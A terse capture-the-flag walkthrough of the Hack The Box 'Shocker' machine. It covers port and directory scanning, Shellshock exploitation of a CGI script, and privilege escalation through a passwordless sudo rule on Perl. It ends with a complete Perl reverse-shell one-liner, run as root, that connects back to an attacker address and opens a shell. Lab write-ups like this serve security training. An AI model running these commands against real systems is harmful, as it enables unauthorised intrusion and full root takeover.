




10.10.10.56

nmap
└─$ nmap 10.10.10.56                
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-06 12:48 EST
Nmap scan report for 10.10.10.56
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1


  

using dirbuster

can use exif on the image

  

https://0xdf.gitlab.io/2021/05/25/htb-shocker.html


```
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,php,html

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56/cgi-bin/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [sh, php, html]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET       11l       32w      294c http://10.10.10.56/cgi-bin/
200      GET        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
403      GET       11l       32w      299c http://10.10.10.56/cgi-bin/.html
[####################] - 13m   120000/120000  0s      found:3       errors:45     
[####################] - 13m   120000/120000  151/s   http://10.10.10.56/cgi-bin/ 
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ 
```

found users.sh

user.sh has output from uptime

there is command execution through useragent

`nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56`

using https://github.com/zalalov/CVE-2014-6271

we got a shell

 

privilege scalation:

```
cd ..                                                                                                               
shelly@Shocker:/$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

`sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.19";$p=4422;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Got root

  


